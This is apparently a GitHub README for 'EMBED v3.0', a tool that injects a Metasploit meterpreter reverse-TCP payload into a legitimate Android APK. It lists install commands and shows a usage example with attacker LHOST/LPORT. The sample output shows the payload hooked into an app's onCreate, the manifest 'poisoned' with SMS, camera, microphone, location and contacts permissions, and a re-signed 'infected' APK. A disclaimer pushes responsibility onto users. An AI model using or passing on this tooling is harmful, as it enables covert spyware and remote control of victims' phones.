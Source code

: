 # EMBED v.3.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Apksigner
- Aapt

# INSTALLATION.
- Linux OS:
```bash
apt install git -y;
git clone https://github.com/ivam3/embed.git;
chmod +x setup;
bash setup manual
```
- Android OS with Termux:
```bash
apt install wget;
mkdir -p $PREFIX/etc/apt/sources.list.d;
wget https://raw.githubusercontent.com/ivam3/termux-packages/gh-pages/ivam3-termux-packages.list -O $PREFIX/etc/apt/sources.list.d/ivam3-termux-packages.list;
apt update && apt upgrade -y;
apt install embed -y
```

# USAGE
Embed v3+ come with 3 options to use a keystore signature for sign your apk files :
- {3} To create your own keystore.
- {2} Using your own keystore; if you have one or if you was created it before in option 3.
- {1} Default: Using a keystore with the next parameters :

```
Enter keystore password: android
Re-enter new password: android
What is your first and last name?
  [Unknown]:  Android Debugging
What is the name of your organizational unit?
  [Unknown]:  Android
What is the name of your organization?
  [Unknown]:  Android Debugging
What is the name of your City or Locality?
  [Unknown]:  California
What is the name of your State or Province?
  [Unknown]:  San Francisco
What is the two-letter country code for this unit?
  [Unknown]:  CA
Is CN=Android Debugging, OU=Android, O=Android Debugging, L=California, ST=San Francisco, C=CA correct?
  [no]:  yes

Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 10,000 days
for: CN=Android Debugging, OU=Android, O=Android Debugging, L=California, ST=San Francisco, C=CA
[Storing key.jks]
```

# EXAMPLE OF USAGE
``` bash
$ embed.rb [target.apk] [msfvenom options]
```
```
$ embed PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

._____ __  __ ____  _____ ____
| ____|  \/  | __ )| ____|  _ \
|  _| | v3.0 |  _ \|  _| | | | |
| |___| |\/| | |_) | |___| |_| |
|_____|_|  |_|____/|_____|____/
#:::::::: By Ivam3 ::::::::::::#

[?]─➤ Set a keystore signer
 ╰{1}─➤ Default (Android Debug key)
 ╰{2}─➤ Using your own key
 ╰{3}─➤ Create a new key
 ╰────➤ 1
[*]─➤ Generating msfvenom payload..
[*]─➤ Signing payload..
[*]─➤ Decompiling orignal APK..
[*]─➤ Ignoring the resource decompilation..
[*]─➤ Decompiling payload APK..
[*]─➤ Locating onCreate() hook..
[*]─➤ Copying payload files..
[*]─➤ Loading original/smali_classes3/mx/mxlpvplayer/activities/SplashActivity.smali and injecting payload..
[*]─➤ Poisoning the manifest with meterpreter permissions..
[+]─➤ Adding android.permission.CHANGE_WIFI_STATE
[+]─➤ Adding android.permission.ACCESS_COARSE_LOCATION
[+]─➤ Adding android.permission.ACCESS_FINE_LOCATION
[+]─➤ Adding android.permission.READ_PHONE_STATE
[+]─➤ Adding android.permission.SEND_SMS
[+]─➤ Adding android.permission.RECEIVE_SMS
[+]─➤ Adding android.permission.RECORD_AUDIO
[+]─➤ Adding android.permission.CALL_PHONE
[+]─➤ Adding android.permission.READ_CONTACTS
[+]─➤ Adding android.permission.WRITE_CONTACTS
[+]─➤ Adding android.permission.WRITE_SETTINGS
[+]─➤ Adding android.permission.CAMERA
[+]─➤ Adding android.permission.READ_SMS
[+]─➤ Adding android.permission.SET_WALLPAPER
[+]─➤ Adding android.permission.READ_CALL_LOG
[+]─➤ Adding android.permission.WRITE_CALL_LOG
[+]─➤ Adding android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS
[*]─➤ Rebuilding /PATH/to/legitim.apk
      with meterpreter injection as data/data/com_backdoored.apk..
[*]─➤ Signing data/data/com_backdoored.apk ..
[*]─➤ Aligning data/data/com_backdoored.apk ..
[+]─➤ Infected file legitim.apk_final ready.
```

### License

GNU

##### Follow me on [Socials Network](https://wlo.link/@Ivam3)
